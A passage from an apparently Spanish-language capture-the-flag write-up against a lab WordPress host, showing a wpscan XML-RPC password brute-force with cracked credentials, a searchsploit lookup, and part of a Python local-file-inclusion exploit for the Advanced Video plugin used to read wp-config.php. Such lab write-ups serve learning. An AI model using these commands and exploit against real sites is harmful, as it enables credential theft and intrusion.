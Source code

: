 

>**``wpscan -U users.txt -P /usr/share/wordlists/rockyou.txt -v --url https://10.0.0.127:12380/blogblog/ --disable-tls-checks``**

```console
[+] Performing password attack on Xmlrpc Multicall against 17 user/s
[SUCCESS] - Harry / monkey                                                                                            
[SUCCESS] - Garry / football                                                                                          
[SUCCESS] - Scott / cookie
[SUCCESS] - Kathy / coolgirl
[SUCCESS] - Barry / washere                                                                                           
[SUCCESS] - Tim / thumb                                                                                               
[SUCCESS] - Pam / 0520
```

No logré mucho así que volviendo al Plugin vulnerable:

>**``searchsploit advanced video``**

---

```console
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Advanced Video 1.0 - Local File Inclusion                   | exploits/php/webapps/39646.py
----------------------------------------------------------------------------- ---------------------------------
```

LFI!!! Perfecto!!

Tuve que toquetear un poco el código y Kali para que funcionara pero cuando lo hizo no pasó nada. Tardé horas en darme cuenta que cada vez que ejecutaba el script y era exitoso se creaba un post en el blog con un archivo de imagen .JPG.

Eso combinado con el directorio **uploads** que era browseable según **WPScan** me permitieron descargar el .JPG que en realidad era un archivo de texto con el contenido del **wp-config.php**. Con un poco de suerte se puede encontrar el password de la DB dentro de ese archivo...

---
```python
import random
import urllib2
import re
import ssl

url = "https://10.0.0.127:12380/blogblog" # insert url to wordpress

randomID = long(random.random() * 100000000000000000L)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rn$
content =  objHtml.readlines()
for line in content:
        numbers = re.findall(r'\d+',line)
        id = numbers[-1]
        id = int(id) / 10

```